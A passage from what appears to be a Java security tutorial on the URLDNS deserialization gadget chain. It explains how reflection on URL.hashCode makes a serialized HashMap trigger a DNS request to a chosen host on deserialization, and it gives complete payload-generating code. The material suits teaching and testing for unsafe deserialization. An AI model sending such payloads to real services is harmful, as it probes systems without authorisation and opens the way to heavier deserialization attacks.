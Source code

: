 **Behavior During Deserialization**: 

- Since the `hashCode` of the `URL` is cached, during deserialization, `URL.hashCode()` will not trigger a DNS request again, as the `hashCode` is no longer `-1`.



**Solution Steps**: 

1. **Modify `hashCode` Before Calling `HashMap.put()`**: Use reflection to change the `hashCode` field of the `URL` object to a non-`-1` value, ensuring that the DNS request does not occur when `put()` is called.
2. **Reset `hashCode` After Calling `HashMap.put()`**: After inserting the `URL` into the `HashMap`, use reflection again to reset the `hashCode` field to `-1`, ensuring that the `hashCode` field appears as uncomputed when serialized.

By doing this, during deserialization, `URL.hashCode()` will be called again and will trigger a new DNS request.



**Example Code**: 

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class UrlDnsChainMain {
    public static void main(String[] args) throws Exception {
        // Create a URL object
        URL url = new URL("http://example.com");

        // Create a HashMap and use the URL as the key
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();

        // Use reflection to modify the URL object's hashCode
        modifyUrlHashCode(url, 12345);  // Set to a non -1 value

        // Insert into HashMap, preventing DNS request during put()
        hashMap.put(url, 123);

        // Reset the URL object's hashCode to -1 after put()
        modifyUrlHashCode(url, -1);

        // Serialize the HashMap
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urlDnsChain.ser"))) {
            oos.writeObject(hashMap);
        }

        // Deserialize the HashMap
        try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("urlDnsChain.ser"))) {
            ois.readObject();
            System.out.println("Deserialization completed");
        }
    }

    // Modify the hashCode field of a URL object using reflection
    public static void modifyUrlHashCode(URL url, int newHashCode) throws Exception {
        Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.setInt(url, newHashCode);
    }
}
```
